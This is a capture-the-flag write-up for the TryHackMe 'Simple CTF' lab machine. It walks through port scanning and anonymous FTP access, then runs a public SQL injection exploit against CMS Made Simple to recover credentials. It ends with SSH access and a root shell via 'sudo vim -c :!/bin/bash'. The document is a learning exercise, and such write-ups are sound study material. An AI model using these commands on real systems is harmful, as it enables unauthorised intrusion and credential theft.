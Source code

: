 ```yaml
---
title: "TryHackMe - Simple CTF"
author: Nasrallah
description: ""
date: 2022-01-27  00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, ftp, sqli, python, crack, sudo]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at [Simple CTF](https://tryhackme.com/room/easyctf) from [TryHackMe](https://tryhackme.com/), an easy machine where we find an outdated CMS, us an exploit for that to get ssh credentials, and finally escalate to root using Vim. If you have any questions please feel free to ask me on any of my [socials](https://nasrallahbaadi.github.io/about).

# **Enumeration**

## nmap

As always, we run a nmap scan:

```terminal
$ sudo nmap -sC -sV -p- 10.10.92.122 | tee scans/nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-27 05:26 EST
Nmap scan report for 10.10.92.122
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.11.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 3 open port:
 - 21 - FTP
 - 80 - HTTP
 - 2222 - SSH

## FTP

From the nmap scan, we see that anonymous FTP login is allowed, so let's take a look:

```terminal
$ ftp 10.10.92.122                                                                                                                                   130 ⨯
Connected to 10.10.92.122.
220 (vsFTPd 3.0.3)
Name (10.10.92.122:sirius): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||44846|)
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |****************************************************************************************************************|   166        1.86 MiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (1.64 KiB/s)
ftp>
```

>NOTE: When i tried to list the content, it gave me this "229 Entering Extended Passive Mode (|||44846|)" the way i solved was by typing `ctrl+c` and then the command `passive`.

The file we found is a note indicating that the password is so weak and can be cracked in seconds!

## HTTP

Let's now check the web server and see what's there:

![home](/assets/img/tryhackme/simplectf/home.png)

Nothing interesting, let's run a directory scan using Gobuster:

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.92.122 | tee scans/gobuster
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.92.122
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/27 06:07:56 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 296]
/.htpasswd            (Status: 403) [Size: 296]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 300]
/simple               (Status: 301) [Size: 313] [--> http://10.10.92.122/simple/]

===============================================================
```

We found **/robots.txt** file and **/simple** directory, robots file has nothing useful for us, and we find CMS Made Simple running on the machine, and it is displaying the version of it in the bottom left corner:

![version](/assets/img/tryhackme/simplectf/version.png)

We found that this version of the CMS is vulnerable to SQL injection, here is the [exploit](https://www.exploit-db.com/exploits/46635).

## SQLi

After downloading the exploit, we can launch the attack with the following command:`python <exploit>.py -u http://{target_IP}/simple/ -c -w {path/to/the/wordlist}`


```terminal

[+] Salt for password found: 1daREDACTED6bb2
[+] Username found: m___h
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468REDACTEDc7eb73846e8d96
[+] Password cracked: s_____

```

> Note: I have masked the the data above, but if you run the exploit, you will get the username and the password.


# **Foothold**

Now that we have a username and password, we can try to connect to SSH

`ssh -p 2222 username@{target_IP}`

```terminal
$ ssh -p 2222 m____@10.10.92.122
m____@10.10.92.122's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Thu Jan 27 13:58:57 2022 from 10.11.31.131
$ ls
user.txt
```

Great, we got access to the machine via SSH, let's do some enumeration to see what can we find:

```terminal
$ sudo -l
User m___h may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim

```


# **Privilege Escalation**

With our current user, we can run `vim` as root, this is great, if we go to [GTFPBins](https://gtfobins.github.io/) we can see that there is a way to escalate our privileges to root using this command: `sudo vim -c ':!/bin/bash'` , so let's do it:

```terminal
$ sudo vim -c ':!/bin/bash'

root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:~# ls /root
root.txt
```

And just like that, we got root on the machine.

I hope you guys have enjoyed this machine, see you in the next hack.
